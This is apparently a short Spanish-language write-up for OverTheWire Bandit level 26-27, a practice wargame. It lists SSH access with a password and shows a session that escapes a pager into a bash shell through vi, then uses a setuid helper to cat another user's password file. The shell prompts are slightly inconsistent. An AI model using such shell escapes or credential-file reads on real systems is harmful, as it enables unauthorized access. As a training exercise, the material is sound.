 # LEVEL 26-27

## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!

## Datos acceso
ssh bandit26 @bandit.labs.overthewire.org -p 2220
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
## Solucion
```bash
--More--(66%) 
v  
:set shell=/bin/bash 
:shell 
[No write since last change] 
bandit26@bandit:~$ 
bandit26@bandit:~$ ls 
bandit27-do text.txt 
bandit26@bandit:~$ ./bandit27-do id 
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26) 
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27 YnQpBuifNMas1hcUFk70ZmqkhUU2
bandit25@bandit:~$
bandit25@bandit:~$
```
## Notas adicionales

## Referencias

